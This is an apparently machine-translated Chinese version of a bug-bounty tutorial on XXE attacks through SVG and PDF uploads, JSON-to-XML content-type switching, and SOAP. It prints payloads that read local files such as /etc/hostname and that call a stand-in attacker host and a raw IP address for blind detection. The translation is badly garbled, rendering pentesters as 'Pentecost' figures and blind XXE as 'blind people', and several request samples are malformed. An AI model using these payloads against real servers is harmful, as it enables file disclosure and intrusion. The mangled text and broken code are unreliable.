

# 鼠叔(几乎)全 XXE 指南

> 原文：<https://infosecwriteups.com/uncle-rats-almost-full-guide-to-xxe-1955563a6598?source=collection_archive---------1----------------------->

# 介绍

XXE 是我最喜欢的攻击类型之一，因为它通常隐藏在地表以下。我们都知道，现在几乎没有人再使用 XML 文件了，因为 JSON 甚至 YAML 已经接管了它。然而，XXE 出现在 2017 年 OWASP 前 10 名中的事实确实说明了这种漏洞类型。

今天，我们将从圣灵降临者和虫子赏金猎人的角度，来看看我们能想到的所有可能的攻击媒介。保护你的应用程序免受 XXE 攻击也不简单，所以我希望这能给任何构建 web 应用程序的人一些如何更好地保护他们的应用程序的想法。

# 盲人 XXE

在我们开始谈论 XXE 之前，我们需要谈谈 XXE 袭击的盲点。无论你是一个圣灵降临者、虫类赏金猎人还是道德黑客，寻找盲人 XXE 而不是普通的 XXE 总是一个好主意。这将确保您不会错过任何入口点，因为有时我们可能会测试 XXE，并认为某个端点不容易受到攻击，因为我们看不到任何返回的数据，而实际上该端点可能容易受到盲 XXE 攻击。

盲目 XXE 意味着您正在成功执行攻击，但您看不到服务器的任何输出。这意味着为了确认我们的攻击是否成功，我们需要向外部服务器发出请求。我通常使用 burp collaborator 来测试此漏洞，并确保在此之后测试非盲漏洞，以防我们确实有详细的缺陷，但出口过滤已启用或类似情况。出口过滤是指防火墙过滤传出流量，不允许某些传出请求，如 HTTP 请求。

# 但是什么是 XXE 呢？

我们已经讨论过这个问题，但是要实现 XXE，我们需要一个 XML 处理器在后台工作。XML 处理器将接受任何 XML 文件，并且默认允许包含外部实体。这些实体可以是任何东西，从 ls 这样的系统命令(甚至可能是一个反向 shell？)到/etc/shadow 之类的文件。

好消息是，如果我们真的发现了 XXE 袭击，我们是圣灵降临者还是邪恶的赏金猎人都没关系。如果您可以在系统上找到文件，此问题的严重性将始终至少为中等，如果您可以执行命令，则可能会更高。只要确保你没有忘记证明影响，你不想失去所有这些工作，因为你没有证明任何影响。

大多数人都知道传统的 XML 文件是什么样子。

```
<note>
<script/>
<script/>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend!</body>
</note>
```

如果我们可以将这个 XML 文件导入到我们的应用程序中来创建一个注释，我们就有了一个 XXE 攻击的入口点，但是这几乎不会发生！

你真的再也看不到太多 XML 了。大多数应用程序将使用不同类型的数据格式，但该漏洞在 2017 年 10 大 OWASP 列表中排名第四。这是否意味着 XML 文件再次成为热门话题？不，当然不是！淘汰过时的老技术！

还有其他一些 XML 攻击的入口点，大多数猎人可能没有听说过，或者他们可能没有仔细考虑过。

# XXE via SVG

这是我最喜欢的一个，因为几乎每个网站都有上传图片和渲染图片的选项。这就是 SVG 的本质，尽管它看起来比这更复杂，但事实并非如此。它实际上只是一个图像，但是用 XML 格式描述。这意味着，如果服务器允许 SVG 文件，我们可以随时测试 XXE。

```
<svg  xmlns:xlink="<http://www.w3.org/1999/xlink>" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```

这个 SVG 文件将尝试打开文件:///etc/hostname 并显示给用户。

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "<http://f2g9j7hhkax.web-attacker.com>"> ]><svg  xmlns:xlink="<http://www.w3.org/1999/xlink>" width="300" version="1.1" height="200"><!ENTITY xxe SYSTEM '<http://f2g9j7hhkax.web-attacker.com>'></svg>
```

但是我们也可以从测试失明的 XXE 开始。我们可以将这些文本保存为“任何内容”。SVG '并尝试将它们上传到我们可以上传图像的任何地方，该图像将呈现在例如个人资料图片或横幅中。

# 通过 PDF 的 XXE

攻击一个目标有时意味着变得有创造性…非常有创造性。这可能看起来不太明显，但我们也可以通过 PDF 上传功能测试 XXE。同样，目标将需要渲染 PDF 来测试 XXE 攻击，因为如果您可以简单地上传 PDF 文件，但它永远不会渲染，那么服务器也永远不会尝试渲染您的 XML 攻击字符串。

根据 [hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#pdf-file-upload) 如果以下攻击字符串被接受，我们还可以检查 XML 输入是否被接受。

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7foo=bar
```

然后，我们可以尝试是否也接受 XML 输入

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

随后，我们可以添加我们的 XXE 攻击字符串，当然，前提是 XML 输入被接受和处理。

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7<!ENTITY xxe SYSTEM '<http://f2g9j7hhkax.web-attacker.com>'>
```

# JSON 到 XXE

如今大多数 web 应用程序都接受 JSON 作为输入，这似乎很好地覆盖了 XXE 的大多数入口，因为如果我们不能处理 XML 文件；执行以 XML 格式为基础的攻击真的很难。还是会？它可能不像许多人认为的那样万无一失。

[https://book . hack tricks . XYZ/pentesting-web/xxe-xee-XML-external-entity # content-type-from-JSON-to-xee](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee)

根据 hacktricks，我们可以简单地改变内容类型头。这将利用一些服务器默认内置 XML 处理器的事实，如果开发人员从未禁用它们，我们可以使用它们来插入 XXE 攻击媒介。让我们看看 hacktricks 给我们的例子。

```
Content-Type: application/json;charset=UTF-8{"root": {"root": {
  "firstName": "Avinash",
  "lastName": "",
  "country": "United States",
  "city": "ddd",
  "postalCode": "ddd"
}}}
```

我们可以简单地改变内容类型，并测试这是否仍然有效，以及内容是否将由 web 服务器处理。

```
Content-Type: application/json;charset=UTF-8Will change toContent-Type: application/xml;charset=UTF-8
```

这当然意味着我们还必须将主体更改为 XML 格式。为此，我使用了一个 JSON 到 XML 的转换器。

[https://www.freeformatter.com/json-to-xml-converter.html](https://www.freeformatter.com/json-to-xml-converter.html)



综合所有这些，我们得到

```
Content-Type: application/xml;charset=UTF-8<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<root>
 <root>
  <firstName>dsfsdfsdf</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

我们也可以使用名为“Content Type Converter”的 Burp 扩展，不过我想至少解释一下如何手动完成这项工作。

如果服务器也接受这个请求，我们可以尝试输入我们的 XXE 攻击向量。

```
Content-Type: application/xml;charset=UTF-8<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "<http://34.229.92.127:8000/TEST.ext>" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

在本例中，仅测试了第一个节点“Firstname ”,但我们当然需要测试所有节点，因为 XXE 可能发生在每个节点上。这是因为开发人员要么必须在一些 XML 处理器上单独保护每个节点。

# 通过 SOAP 访问 XXE

SOAP 代表简单对象访问协议，它基本上是另一种协议，如 HTTP 或 FTP，但 SOAP 使用类似 XML 的结构进行通信。你们中眼尖的人可能已经猜到 SOAP 也可能容易受到 XXE 攻击，但是我们将再次确保我们测试每一个节点。在 SOAP 中，每个节点都必须由开发人员保护，因此我们也可以在这里测试其他东西，如 SQLi 和 XSS。

# 剥削和更多

这是关于 XXE 的文件的免费版本，只需 2 美元(低于一杯咖啡的价格)就可以获得包括视频报道在内的完整版本，请前往 https://gum.co/ZbQkN 的